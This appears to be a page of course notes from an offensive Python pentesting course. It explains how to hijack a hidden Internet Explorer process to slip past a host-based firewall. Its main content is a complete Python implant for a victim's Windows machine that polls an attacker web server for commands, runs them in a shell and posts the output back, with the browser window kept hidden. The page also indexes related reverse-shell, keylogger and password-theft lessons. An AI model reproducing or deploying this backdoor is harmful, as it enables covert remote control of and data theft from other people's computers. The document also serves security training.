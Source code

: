 ```yaml
---
title: Hickjack the Internet Explorer process to bypass an host-based firewall
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - python
  - python pentesting
  - scripting
  - reverse shell
  - bypassing techniques
  - host based firewall
---
```

# Hickjack the Internet Explorer process to bypass an host-based firewall

From course: [Python For Offensive PenTest: A Complete Practical Course](https://www.udemy.com/course/python-for-offensive-security-practical-course/).

??? abstract "General index of the course"
	- Gaining persistence shells (TCP + HTTP):
		- [Coding a TCP connection and a reverse shell](coding-a-tcp-reverse-shell.md).
		- [Coding a low level data exfiltration  - TCP connection](coding-a-low-level-data-exfiltration-tcp.md).
		- [Coding an http reverse shell](coding-an-http-reverse-shell.md).
		- [Coding a data exfiltration script for a http shell](coding-a-data-exfiltration-script-http-shell.md).
		- [Tunning the connection attempts](tunning-the-connection-attemps.md).
		- [Including cd command into TCP reverse shell](including-cd-command-into-tcp-reverse-shell.md).
	- Advanced scriptable shells:
		- [Using a Dynamic DNS instead of your bared attacker public ip](ddns-aware-shell.md).
		- [Making your binary persistent](making-your-binary-persistent.md). 
		- [Making a screenshot](making-a-screenshot.md). 
		- [Coding a reverse shell that searches files](coding-a-reverse-shell-that-searches-files.md). 
	- Techniques for bypassing filters: 
		- [Coding a reverse shell that scans ports](coding-a-reverse-shell-that-scans-ports.md). 
		- [Hickjack the Internet Explorer process to bypass an host-based firewall](hickjack-internet-explorer-process-to-bypass-an-host-based-firewall.md).
		- [Bypassing Next Generation Firewalls](bypassing-next-generation-firewalls.md).
		- [Bypassing IPS with handmade XOR Encryption](bypassing-ips-with-handmade-xor-encryption.md).
	- Malware and crytography:
		- [TCP reverse shell with AES encryption](tcp-reverse-shell-with-aes-encryption.md).
		- [TCP reverse shell with RSA encryption](tcp-reverse-shell-with-rsa-encryption.md).
		- [TCP reverse shell with hybrid encryption AES + RSA](tcp-reverse-shell-with-hybrid-encryption-rsa-aes.md).
	- Password Hickjacking:
		- [Simple keylogger in python](python-keylogger.md).
		- [Hijacking Keepass Password Manager](hijacking-keepass.md).
		- [Dumping saved passwords from Google Chrome](dumping-chrome-saved-passwords.md).
		- [Man in the browser attack](man-in-the-browser-attack.md).
		- [DNS Poisoning](dns-poisoning.md).
	- Privilege escalation:
		- [Weak service file permission](privilege-escalation.md).


For our script to bypass a host-based firewall (based on an ACL), we will hijack the Internet Explorer process to conceal our traffic and bypass it.

## Client side

Make sure that the victim machine (a windows 10) has installed these two python libraries: pypiwin32 and pywin32.

To be run on our victim's machine.

```python
# Python For Offensive PenTest: A Complete Practical Course  - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2

from win32com.client import Dispatch
from time import sleep
import subprocess

ie = Dispatch("InternetExplorer.Application") # Create browser instance.
ie.Visible = 0 # Make it invisible [ run in background ] (1= visible)

# Paramaeters for POST
dURL = "http://192.168.0.152"  
Flags = 0
TargetFrame = 0


while True:
    ie.Navigate("http://192.168.0.152") # Navigate to our kali web server (the attacker machine) to grab the hacker commands
    while ie.ReadyState != 4: # Wait for browser to finish loading.
        sleep(1)

    command = ie.Document.body.innerHTML 
    command = command.encode() # encode the command
    if 'terminate' in command.decode():
        ie.Quit() # quit the IE and end up the process
        break
    else:
        CMD = subprocess.Popen(command.decode(), shell=True, stdin=subprocess.PIPE, stderr=subprocess.PIPE, stdout=subprocess.PIPE)
        Data = CMD.stdout.read()
        PostData = memoryview( Data ) # in order to submit or post data using COM technique , it requires to  buffer the data first using memoryview
        ie.Navigate(dURL, Flags, TargetFrame, PostData) # we post the comamnd execution result along with the post parameters which we defined eariler..

    sleep(3)

```